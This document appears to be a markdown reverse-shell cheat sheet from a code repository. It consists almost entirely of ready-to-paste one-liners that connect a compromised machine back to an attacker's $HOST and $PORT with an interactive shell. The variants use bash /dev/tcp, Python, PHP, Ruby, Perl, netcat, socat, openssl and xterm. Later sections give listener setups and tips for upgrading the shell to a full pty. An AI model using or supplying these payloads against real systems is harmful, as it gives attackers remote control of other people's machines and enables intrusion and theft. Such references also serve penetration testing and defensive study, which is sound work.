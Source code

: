 ```yaml
---
title: Reverse Shells
---
```


Examples generally use `$HOST` and `$PORT` for the target host and port for the
shell callback.

## Bash ##

Bash **only** reverse shells generally require that `/dev/tcp` is enabled in
bash at build-time.

```
bash -i >& /dev/tcp/$HOST/$PORT 0>&1
```

Use redirection through a temporary FD (in this case, 42).

```
0<&42;exec 42<>/dev/tcp/$HOST/$PORT; sh <&42 >&42 2>&42
```

## Python ##

```
python -c 'import socket as so,subprocess,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("$HOST",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP ##

```
php -r '$sock=fsockopen("$HOST",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby ##

```
ruby -rsocket -e'f=TCPSocket.open("$HOST",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Perl ##

```
perl -e 'use Socket;$i="$HOST";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Common Utilities ##

Sometimes you can just use a utility available on the system.

### Netcat (Traditional) ###

```
nc -e /bin/sh $HOST $PORT
```

### Socat ###

[Socat is also a great handler for the shells](https://systemoverlord.com/2018/01/20/socat-as-a-handler-for-multiple-reverse-shells.html)

```
socat TCP:$HOST:$PORT exec:/bin/bash,pty,stderr,setsid
```

You can even get a full pty if you use socat as your listener.

Listener:

```
socat file:`tty`,raw,echo=0 tcp-listen:$PORT
```

Victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

### Netcat (OpenBSD) ###

OpenBSD netcat removed the `-e` flag "for security."  All of these mechanisms
will also work on traditional netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
```

### OpenSSL ###

For your encrypted reverse shells!  Depends on the openssl command line binary.
It's a lot like OpenBSD netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|openssl s_client -connect $HOST:$PORT >/tmp/f
```

### Xterm ###

This is very different.  Instead of forwarding a shell, forward a whole terminal
emulator!

Attacker host:

```
xnest :1
xhost +targetip
```

On the target:

```
xterm -display $HOST:1
```

## Reverse Shell Tips ##

So a basic reverse shell pretty much sucks.

- Hitting `^C` is a terrible experience.  (Usually kills the listener, not what
  you ran on the server.)
- No history, job control, etc.
- Can't use most editors.

### Getting a pty (python) ###

Probably the most commonly known technique:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting a pty (expect) ###

Expect isn't as commonly installed as python, but this is a good choice for some
circumstances.

```
cat >/tmp/e.exp <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF
expect /tmp/e.exp
```

### Upgrading via python + stty ###

[Inspiration](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Before connection:

``` bash
echo 'After connection, please run: '
echo python -c 'import pty; pty.spawn("/bin/bash")'
echo export SHELL=bash
echo export TERM=$TERM
echo stty rows $(stty -a | tr ';' '\n' | awk '/^ rows/{print $2}') columns $(stty -a | tr ';' '\n' | awk '/^ columns/{print $2}')
stty raw -echo  # Note, you will lose echo here.
nc -lvp $PORT
```

After connecting, run the commands provided by the original script, and you
should be good to go.

